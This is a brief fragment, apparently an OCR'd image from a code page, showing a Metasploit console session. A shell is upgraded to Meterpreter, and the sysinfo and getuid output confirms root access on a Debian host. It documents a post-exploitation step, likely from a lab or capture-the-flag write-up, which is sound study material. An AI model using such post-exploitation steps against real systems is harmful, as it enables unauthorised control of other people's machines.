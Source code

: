 ```
msf5 post(multi/manage/shell_to_meterpreter) > sessions 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer     : 192.59.47.3
OS           : Debian 8.11 (Linux 5.4.0-125-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > 
```